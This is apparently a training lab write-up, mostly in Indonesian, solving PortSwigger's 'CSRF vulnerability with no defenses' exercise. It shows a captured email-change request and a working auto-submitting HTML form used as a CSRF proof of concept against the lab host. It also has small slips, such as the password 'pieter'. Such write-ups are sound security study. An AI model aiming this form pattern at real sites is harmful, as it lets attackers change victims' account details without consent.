




# CSRF vulnerability with no defenses

> **Lab Description:** This lab's email change functionality is vulnerable to CSRF. To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. You can log in to your own account using the following credentials: wiener:peter

## Lab Overview

| Property             | Detail                                                                            |
| :------------------- | :-------------------------------------------------------------------------------- |
| **Category**         | Cross Site Request Forgery (CSRF)                                                 |
| **Difficulty Level** | Apprentice                                                                        |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/csrf/lab-no-defenses) |
| **Status**           | Solved                                                                            |
| **Date Completed**   | 2026-11-16                                                                        |

## Analysis

Diberikan website sebagai berikut:



Lalu saya melakukan login menggunakan kredensial berikut:

```text
username: wiener
password: pieter
```

Setelah berhasil login akan diredirect kedalam dashboard user



Lalu saya mencoba untuk mengubah email pribadi saya



Setelah itu saya analisis history request change email yang sudah saya tangkap dengan burp suite:

```text
POST /my-account/change-email HTTP/1.1
Host: 0ad60068037cc9a980c0127900870093.web-security-academy.net
Cookie: session=lk46gsc8PyRnkCOHlepyeEbbxoMNP23s
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="8", "Chromium";v="156"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Origin: https://0ad60068037cc9a980c0127900870093.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad60068037cc9a980c0127900870093.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

email=botnet-exploit%40gmail.com
```

Dari POST Header berikut, form email tidak dilengkapi dengan `CSRF` token, sehingga mungkin akan rentan terkena `CSRF attack`

## Exploitation

Objektif utama dari lab ini adalah kita diminta untuk menggubah email pengguna lain menggunakan `CSRF attack`, langkah pertama saya menyusun PoC CSRF berikut:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>PoC CSRF</title>
  </head>
  <body>
    <form
      action="https://0ad60068037cc9a980c0127900870093.web-security-academy.net/my-account/change-email"
      method="post"
    >
      <input
        type="hidden"
        name="email"
        value="johndoe@web-security-academy.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Setelah itu saya copy dan kirim melalui exploit server lalu `Deliver exploit to victim`



Response server menunjukkan bahwa web tetap memproses request walaupun `origin` berbeda dari website yang sedang diakses oleh pengguna

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"That email is not available"
```

## New Knowledge
- Memahami cara kerja CSRF attack
- Pentingnya validasi `same-origin` disetiap request dari browser client

## References

- [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
- [https://hacktricks.wiki/en/pentesting-web/csrf-cross-site-request-forgery.html](https://hacktricks.wiki/en/pentesting-web/csrf-cross-site-request-forgery.html)
